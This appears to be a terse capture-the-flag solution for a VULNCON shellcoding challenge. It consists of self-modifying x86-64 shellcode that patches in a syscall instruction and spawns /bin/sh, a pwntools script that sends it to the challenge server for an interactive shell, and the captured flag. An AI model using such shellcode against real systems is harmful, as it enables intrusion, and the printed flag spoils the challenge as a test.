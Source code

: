 

# shell.asm

```asm
[bits 64]

mov     rdx, 7          
mov     rsi, 0x100      
mov     rdi, 0x69420000
mov     rax, 0x4010F0
call    rax              ;mprotect
mov     rcx, 0x6942004b
mov     byte [rcx], 190
xor     byte [rcx], 177
mov     rcx, 0x6942004c
mov     byte [rcx], 190
xor     byte [rcx], 187
xor     eax, eax
mov     rbx, 0xFF978CD091969DD1
neg     rbx
mov     rdi, 0x69420066
mov     qword [rdi], rbx
xor     rsi, rsi
xor     rdx, rdx
mov     al, 0x3b
```


# More_than_shellcoding.py

```py
from pwn import *

r = process(['nasm', './shell.asm'])

r.close()

sleep(1)

with open('./shell', 'rb') as f:
    sh = f.read()

# r = process('./More_than_shellcoding')
r = remote('35.228.15.118', 1338)

r.readline()
r.sendline(sh)

r.interactive()
```

# FLAG

**`VULNCON{Gu355_u_d0nt_n33d_th3_5y5c4ll_aft3r4ll}`**


